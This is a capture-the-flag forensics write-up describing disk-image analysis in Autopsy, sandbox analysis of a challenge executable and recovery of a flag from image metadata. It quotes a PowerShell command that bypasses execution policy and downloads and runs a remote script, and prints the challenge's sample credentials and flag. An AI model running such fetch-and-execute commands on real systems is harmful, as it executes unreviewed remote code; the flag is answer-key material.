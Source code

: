 # uwu
## Challenge Overview
In this challenge, we are provided with an E01 disk image file. The challenge mentions that a user who loves Naruto is involved, hinting at possible clues related to the user "Naruto." This writeup covers the steps I took using Autopsy and Process Monitor to analyze the disk image and ultimately retrieve the flag.

## Setup Data Source in Autopsy
- Add Data Source: Start by adding the E01 file as a data source in Autopsy.
- Select Disk Image: Choose "disk image and VM file" as the source type.
- Select the File: Choose the provided E01 file.
- Ingest Modules: Enable all options for thorough analysis (recommended for CTF purposes).
## Disk Analysis
The challenge hinted at a user named "Naruto," so I explored the Users/Naruto directory. The key folders were:

- Desktop
- Documents
- Downloads

In the Downloads folder, I found several Base64 encoded ```MP4 files```, a ```private.rar``` file, an executable, and an image file. Decoding the Base64 files led to dead ends, but I continued by extracting the contents of private.rar.
![image](https://github.com/user-attachments/assets/073d832a-2143-47ef-bda5-b6cab180815c)

## Analyzing private.rar
Extracting ```private.rar``` requires a password, which is found in the ```credentials.txt``` file (dattebayo). However, after extracting the file, it only contains more base64-encoded Naruto videos—a dead end.
```
# credentials.txt
naruto:dattebayo
hinata:iloveyou
itachi:shisui
jiraiya:tsunade
```
## Analyzing kotoamatsukami.exe
This executable file appeared to be the key to the challenge, but analyzing it required malware analysis skills. The challenge creator suggested using Process Monitor (ProcMon), a Windows tool, to monitor the program’s behavior.

Since running the file on a host machine is risky, it was instead uploaded to <a href="https://www.hybrid-analysis.com/">Hybrid Analysis</a>, a free automated malware analysis service. The analysis revealed a crucial PowerShell command:
The analysis revealed a crucial PowerShell command:

```powershell
powershell -exec bypass -c 'Invoke-WebRequest https://gist.githubusercontent.com/zachwong02/9f9054bc9db15aeb453dc37e59878aac/raw/48f39f9328189ae8260c6e040eb6d3b57403135e/gistfile1.txt | iex'
```
![image](https://github.com/user-attachments/assets/53d9369a-3bc1-4e7d-9fa3-e35c416c227d)

This command downloads and executes a script from a GitHub Gist. Analyzing the script, I found that it reads metadata from an image file, ```genjustsu.jpg```, extracted earlier from the disk image.

## Retrieving the Flag
To get the flag:

- Create a PS1 Script: Copy the downloaded script into a .ps1 file.
- Place the Image: Ensure genjustsu.jpg is in the same directory as the script.
- Run the Script: Executing the script revealed the flag.
```powershell
$chars = Get-FileMetaData $env:USERPROFILE\\Documents\uwu\Export\260-genjutsu.jpg | Select-Object -ExpandProperty "Title"
$chars[0] + $chars[1] + $chars[14] + $chars[7] + $chars[54] + $chars[55] + $chars[65] + $chars[41] + $chars[4] + $chars[17] + $chars[57] + $chars[62] +$chars[18] + $chars[45] + $chars[55] + $chars[13] + $chars[2] + $chars[4] +  $chars[63] +  $chars[62] + $chars[57] + $chars[63] + $chars[38] +  $chars[50] + $chars[63] + $chars[39] +  $chars[34] + $chars[39] + $chars[35] + $chars[64] + $chars[63] + $chars[48] + $chars[26] + $chars[24] + $chars[66]
```
> The Get-FileMetaData module is not a default PowerShell module in Windows. If you attempt to run a script using this module without first installing it, you'll encounter an error. To resolve this, you can download the module from the link provided and import it into your PowerShell session. Once imported, the script should work as expected. You can download the module <a href="https://gist.github.com/woehrl01/5f50cb311f3ec711f6c776b2cb09c34e">here.</a>
```powershell
PS C:\Users\Documents\uwu\Export> Import-Module -Name "C:\Users\Documents\uwu\Export\Get-FileMetaData"
PS C:\Users\Documents\uwu\Export> ./script
ABOH23{pER5!St3NCE_!5_my_ninj@_waY} 
```
## Flag
```
ABOH23{pER5!St3NCE_!5_my_ninj@_waY}
```
